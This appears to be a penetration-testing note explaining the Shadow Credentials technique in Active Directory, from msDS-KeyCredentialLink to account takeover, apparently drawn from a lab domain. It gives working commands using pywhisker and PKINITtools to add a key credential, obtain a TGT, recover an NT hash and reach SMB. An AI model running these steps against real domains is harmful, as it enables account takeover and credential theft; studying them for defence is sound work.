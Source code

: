 When a user enrolls, the TPM (Trusted Platform Module) generates a public-private key pair for the user’s account — the private key should never leave the TPM. Next, if the Certificate Trust model is implemented in the organization, the client issues a certificate request to obtain a trusted certificate from the environment’s certificate issuing authority for the TPM-generated key pair. 

![image](https://github.com/qwutony/qwutony.github.io/assets/45024645/69e08f9d-f2ba-45f8-84e8-805d6b85052d)

However, if the Key Trust model is implemented, the public key is stored in a new Key Credential object in the msDS-KeyCredentialLink attribute of the account. The private key is protected by a PIN code, which Windows Hello allows replacing with a biometric authentication factor, such as fingerprint or face recognition.

### msDS-KeyCredentialLink
In essence, the `msDS-KeyCredentialLink` attribute is part of the implementation for Windows Hello for Business and other key-based authentication mechanisms in Active Directory (AD). It is used to store public key credentials for an Active Directory object, typically a user or a device. This attribute enables passwordless authentication methods, such as biometrics (e.g., fingerprint or facial recognition) and PINs, by linking them to the user or device's AD account.

This means that if you can write to the msDS-KeyCredentialLink property of a user, you can obtain a TGT for that user. If there is a relationship between Domain Users or Computer accounts that allow `AddKeyCredentialLink`, it may be possible to takeover that user or object. It is also possible to obtain the NTLM hash of the user

### Shadow Credentials
When abusing Key Trust, we are effectively adding alternative credentials to the account, or “Shadow Credentials”, allowing for obtaining a TGT and subsequently the NTLM hash for the user/computer. Those Shadow Credentials would persist even if the user/computer changed their password.

### Exploitation
Use [pywhisker for Linux](https://github.com/ShutdownRepo/pywhisker) or [Whisker for Windows](https://github.com/eladshamir/Whisker) to abuse.

Can use `add` to generate a new public/private key pair and add it to the `msDS-KeyCredentialLink` property. Also keep in mind that it might be useful to use the `remove` for cleanup.

```
python3 pywhisker.py -d "zsm.local" -u "marcus" -p "\!QAZ2wsx" -t "ZPH-SVRMGMT1$" --action "add" -v 
```

Clone the [PKINITtools](https://github.com/dirkjanm/PKINITtools) repository for utilities to generate a TGT

```
python3 PKINITtools/gettgtpkinit.py -cert-pfx UvWSLQEU.pfx -pfx-pass uq1SMyetoBSAUdZxTpOH zsm.local/ZPH-SVRMGMT1$ UvWSLQEU.ccache (Retrieve TGT)
python3 PKINITtools/getnthash.py -key f1969ba89e75d5893b06b1bf946e08d336ca04d82152f69fa2882021ce214172 -dc-ip 192.168.210.10 zsm.local/ZPH-SVRMGMT1$ (Recover NT hash)

getST.py -k -no-pass ZPH-SVRMGMT1\$@192.168.210.11 -spn CIFS/ZPH-SVRMGMT1.ZSM.LOCAL -debug -dc-ip 192.168.210.10 (Retrieve CIFS TGT ticket)

smbclient.py -k -no-pass ZPH-SVRMGMT1.ZSM.LOCAL -debug
```
